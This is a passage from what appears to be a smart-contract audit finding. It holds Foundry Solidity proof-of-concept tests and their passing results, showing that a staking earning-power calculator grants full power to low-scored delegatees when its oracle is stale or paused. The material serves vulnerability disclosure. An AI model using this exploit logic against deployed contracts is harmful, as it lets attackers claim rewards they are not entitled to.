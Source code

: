 ```solidity
            calculator.getEarningPower(stakeAmount, attacker, attacker),
            stakeAmount,
            "Should have full earning power when oracle is stale"
        );
    }

    function testExploit_PausedOracleGrantsFullPower() public {
        // Setup: Set initial score below threshold
        vm.startPrank(scoreOracle);
        calculator.updateDelegateeScore(attacker, 10);
        vm.stopPrank();

        // Initial check
        assertEq(
            calculator.getEarningPower(100, attacker, attacker),
            0,
            "Should have zero earning power when score below threshold"
        );

        // Pause oracle
        vm.prank(pauseGuardian);
        calculator.setOracleState(true);

        // Check after pause - should have full earning power
        uint256 stakeAmount = 100;
        assertEq(
            calculator.getEarningPower(stakeAmount, attacker, attacker),
            stakeAmount,
            "Should have full earning power when oracle is paused"
        );
    }
}
```

**Test Results:**


Ran 2 tests for test/OracleVulnerability.t.sol:OracleVulnerabilityTest
[PASS] testExploit_PausedOracleGrantsFullPower() (gas: 60889)
[PASS] testExploit_StalenessGrantsFullPower() (gas: 55424)
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 38.21ms (8.45ms CPU time)

Ran 1 test suite in 87.07ms (38.21ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)


**Interpretation:**

1. **`testExploit_StalenessGrantsFullPower()` Passed:**
   - Verified that after the oracle becomes stale (i.e., no updates within `STALE_ORACLE_WINDOW`), a delegatee with a score below the threshold (`10 < 50`) is erroneously granted full earning power (`100` instead of `0`).

2. **`testExploit_PausedOracleGrantsFullPower()` Passed:**
   - Confirmed that when the oracle is explicitly paused by the `oraclePauseGuardian`, a delegatee with an insufficient score similarly receives full earning power.

